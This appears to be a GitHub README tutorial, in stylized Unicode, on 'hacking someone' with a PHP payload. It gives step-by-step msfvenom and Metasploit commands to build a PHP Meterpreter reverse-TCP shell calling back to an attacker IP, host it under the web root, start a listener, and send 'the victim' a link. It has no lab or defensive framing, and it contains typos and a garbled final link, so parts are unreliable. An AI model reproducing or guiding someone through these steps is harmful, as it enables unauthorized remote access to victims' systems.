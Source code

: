 # HOW-TO-HACK-SOMEONE-USING-A-PHP-PAYLOAD
HOW TO HACK SOMEONE USING A PHP~PAYLOAD

💖sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴘᴀʏʟᴏᴀᴅs ᴡɪᴛʜ ᴘʜᴘ ᴜsɪɴɢ ᴍsғᴠᴇᴍᴏɴ

💖ᴡʜᴀᴛ ɪs ᴍsғᴠᴇᴍᴏɴ?? ᴡᴇʟʟ ᴍᴇᴛᴀsᴘʟᴏɪᴛ ғʀᴀᴍᴇᴡᴏʀᴋ ᴠᴇɴᴏᴍ ɪs ᴀ ᴘᴀʏʟᴏᴀᴅ ɢᴇɴ ᴜsᴇᴅ ᴏɴ ʟɪɴᴜɴx ᴛᴏ ɢᴇɴᴇʀᴀᴛᴇ ᴘᴀʏʟᴏᴀᴅs ғᴏʀ ᴇxᴘʟᴏɪᴛᴀᴛɪᴏɴ

💖ʟᴇᴛs sᴛᴀʀᴛ ʙʏ sᴛᴀʀᴛɪɴɢ ᴀᴘᴀᴄʜᴇ2 sᴏ ᴏᴘᴇɴ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:

–––––––––––––––––––

sᴇʀᴠɪᴄᴇ ᴀᴘᴀᴄʜᴇ2 sᴛᴀʀᴛ


🌀sᴛᴇᴘ 1:

ɴᴏᴡ ᴡᴇ ɴᴇᴇᴅ ᴏᴜʀ ʟᴏᴄᴀʟ ɪᴘ ᴏʀ ᴇxᴛᴇʀɴᴀʟ ɪᴘ ғᴏʀ ʟᴏᴄᴀʟ ɪᴘ ᴇɴᴛᴇʀ

ᴄᴏᴅᴇ:

–––––––––––––––––––

ɪғᴄᴏɴғɪɢ
ᴀɴᴅ ғᴏʀ ᴇxᴛᴇʀɴᴀʟ ɢᴏᴏɢʟᴇ ᴡʜᴀᴛs ᴍʏ ɪᴘ
ɴᴏᴛᴇ ɪғ ᴜsɪɴɢ ᴇxᴛᴇʀɴᴀʟ ʟɪɴᴋ ᴜ ɴᴇᴇᴅ ᴛᴏ ғᴏʀᴡᴀʀᴅ ᴛʜᴇ ᴘᴏʀᴛs ᴏɴ ʏᴏᴜʀ ʀᴏᴜᴛᴇʀ

🌀sᴛᴇᴘ 2:

ɴᴏᴡ ʏᴏᴜ ʜᴀᴠᴇ ᴛʜᴇ ʟᴏᴄᴀʟ ɪᴘ, sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ
ᴇɴᴛᴇʀ ᴛʜɪs ᴄᴏᴍᴍᴀɴᴅ:

ᴄᴏᴅᴇ:

–––––––––––––––––––

ᴍsғᴠᴇɴᴏᴍ -ᴘ ᴘʜᴘ/ᴍᴇᴛᴇʀᴘʀᴇᴛᴇʀ/ʀᴇᴠᴇʀsᴇ_ᴛᴄᴘ ʟʜᴏsᴛ= 192.168.8.107 ʟᴘᴏʀᴛ=4444 -ᴇ ᴘʜᴘ/ʙᴀsᴇ64 -ғ ʀᴀᴡ > /ʀᴏᴏᴛ/ᴅᴇsᴋᴛᴏᴘ/ʜᴏᴍᴇ.ᴘʜᴘ

🌀sᴛᴇᴘ 3:


ɴᴏᴡ ɢᴏ ᴛᴏ ᴛʜᴇ ᴅᴇsᴋᴛᴏᴘ ᴀɴᴅ ᴄᴏᴘʏ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ ᴛᴏ ʏᴏᴜʀ ʜᴛᴍʟ ғɪʟᴇ ɪɴ /ᴠᴀʀ/ᴡᴡ ᴡ/ʜᴛᴍʟ ғᴏʟᴅᴇʀ
ʀᴇᴍᴏᴠᴇ ᴛʜᴇ sᴘᴀᴄᴇ ^^

🌀sᴛᴇᴘ 4:


ɴᴏᴡ ᴏᴘᴇɴ ᴀ ɴᴇᴡ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:

–––––––––––––––––––

MSFCONSOL

🌀sᴛᴇᴘ 5:

TYPE BELOW COMMAND'S

ᴄᴏᴅᴇ:

–––––––––––––––––––

USE EXPLOIT/MULTI/HANDLER

ᴄᴏᴅᴇ:

–––––––––––––––––––

SET PAYLOAD PHP/METERPRETER/REVERSE_TCP

ᴄᴏᴅᴇ:

–––––––––––––––––––

SET LHOST [YOUR LOCAL IP]

ᴄᴏᴅᴇ:

–––––––––––––––––––

SET LPORT 4444

ᴄᴏᴅᴇ:

–––––––––––––––––––

EXPLOIT

🌀sᴛᴇᴘ 6:


ɴᴏᴡ sᴇɴᴅ ᴛʜᴇ ᴠɪᴄᴛᴜᴍ ᴛʜᴇ ʟɪɴᴋ 192.168.8.107:4444/Home.php

🌀sᴛᴇᴘ 7:


ɴᴏᴡ ᴛʏᴘᴇ ʜᴇʟᴘ ᴀɴᴅ ʏᴏᴜ ɢᴇᴛ ᴀ ғᴜʟʟ ʟɪsᴛ ᴄᴏᴍᴍᴀɴᴅs ʏᴏᴜ ᴄᴀɴ ʀᴜɴ ᴜɴᴅᴇʀ ᴍᴇᴛᴀsᴘʟᴏɪᴛ

